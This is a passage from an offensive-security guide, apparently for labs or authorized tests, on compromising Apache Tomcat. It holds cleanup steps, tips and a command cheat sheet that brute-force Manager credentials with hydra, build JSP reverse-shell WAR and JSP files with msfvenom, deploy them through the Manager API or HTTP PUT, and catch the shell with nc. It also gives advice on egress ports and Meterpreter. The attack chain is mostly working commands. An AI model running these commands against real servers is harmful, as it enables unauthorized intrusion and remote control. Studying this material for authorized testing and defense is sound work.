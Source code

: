 6) Cleanup
- Undeploy WAR via Manager or delete JSP if PUT was used:
```
curl -u 'tomcat:s3cret' "http://$TARGET:8080/manager/text/undeploy?path=/shell"
# For PUT path: if a delete-capable WebDAV endpoint exists you can try:
# curl -X DELETE http://$TARGET:8080/shell.jsp
# Otherwise rely on scope rules and report appropriately.
```

## Practical tips
- Always confirm you’re authorized to test. Tomcat Manager abuse is often due to weak credentials; document responsibly.
- If /manager/html is 401 (Basic Auth prompt), try defaults; if 403, the Manager may be IP-restricted.
- TARGETURI differences matter:
  - Metasploit often wants TARGETURI=/manager (not /manager/html).
  - The text API lives under /manager/text.
- WAR deploy path equals the WAR filename (shell.war -> /shell/). Avoid names that collide with existing apps.
- For more reliable egress, set LPORT to 80/443 if outbound filtering exists.
- Prefer java/meterpreter/reverse_tcp in Metasploit for stability; you can migrate to a Windows process after the session opens.
- On Windows, Tomcat typically installs under:
  - C:\Program Files\Apache Software Foundation\Tomcat X.X\
  - Config file with roles/users: conf\tomcat-users.xml (useful for local enumeration if you gain file read).
- Clean up: undeploy WARs and remove uploaded JSPs to minimize impact.

## Minimal cheat sheet (one-screen flow)
```
export TARGET=10.10.10.10; export LHOST=10.10.14.5; export LPORT=4444

# Recon
nmap -p80,8080,8009 -sC -sV --script http-title,http-server-header,http-methods -oN nmap.txt $TARGET
curl -i http://$TARGET:8080/manager/html

# Brute (if needed)
printf "admin\ntomcat\nmanager\n" > users.txt; printf "admin\npassword\ns3cret\ntomcat\n" > passes.txt
hydra -L users.txt -P passes.txt -s 8080 -f -V $TARGET http-get /manager/html

# Path A (Manager -> WAR)
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f war -o shell.war
nc -lvnp $LPORT
# Upload shell.war via Manager UI or:
curl -u 'tomcat:s3cret' --upload-file shell.war "http://$TARGET:8080/manager/text/deploy?path=/shell&update=true"
curl http://$TARGET:8080/shell/

# Path B (PUT -> JSP)
curl -i -X OPTIONS http://$TARGET:8080/
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f raw -o shell.jsp
curl -i -X PUT --data-binary @shell.jsp http://$TARGET:8080/shell.jsp
nc -lvnp $LPORT; curl http://$TARGET:8080/shell.jsp

# Cleanup
curl -u 'tomcat:s3cret' "http://$TARGET:8080/manager/text/undeploy?path=/shell"
```
